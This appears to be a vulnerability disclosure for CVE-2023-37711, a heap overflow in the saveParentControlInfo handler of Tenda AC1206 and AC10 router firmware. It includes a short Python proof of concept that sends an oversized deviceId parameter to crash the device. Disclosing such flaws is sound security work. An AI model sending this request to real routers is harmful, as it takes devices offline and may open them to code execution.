

# Tenda AC1206, AC10V1.0, AC10V4.0 Vulnerability

This vulnerability lies in the `saveParentControlInfo` function which influences the latest version of Tenda AC1206, AC10V1.0 and AC10V4.0. (The latest version is [V15.03.06.23](https://down.tenda.com.cn/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip), [V15.03.06.47](https://down.tendacn.com/uploadfile/AC10/US_AC10V1.0re_V15.03.06.47_multi_TDE.zip) and [V16.03.10.09](https://down.tendacn.com/uploadfile/AC10/AC10v4.0%20Firmware%20V16.03.10.09.zip))

## Vulnerability Description

There is a **heap buffer overflow** vulnerability in function `saveParentControlInfo`.

In function `saveParentControlInfo` it reads user provided parameter `deviceId` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the heap buffer `s`.



So by requesting the page `/goform/saveParentControlInfo`, the attacker can easily perform a **DoS** or **RCE** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/saveParentControlInfo?"
url += "deviceId=" + "s" * 0x300
url += "&deviceName=deviceName"

response = requests.get(url)
```

## Timeline

* 2023-07-10: CVE ID assigned (CVE-2023-37711)
